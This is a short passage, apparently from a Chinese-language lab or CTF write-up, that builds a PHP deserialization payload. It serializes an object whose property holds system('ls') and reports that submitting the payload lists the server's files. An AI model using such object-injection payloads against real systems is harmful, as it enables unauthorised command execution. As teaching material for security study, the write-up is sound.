 ![image-20240125173607194](image/image-20240125173607194.png)

------

发现可行，那我们构建命令



```
 $a = new Example();
 $a->sys="system('ls');";
 echo "\n";
 echo serialize($a);

O:7:"Example":1:{s:3:"sys";s:13:"system('ls');";}
```

将其传入可以看到文件列表

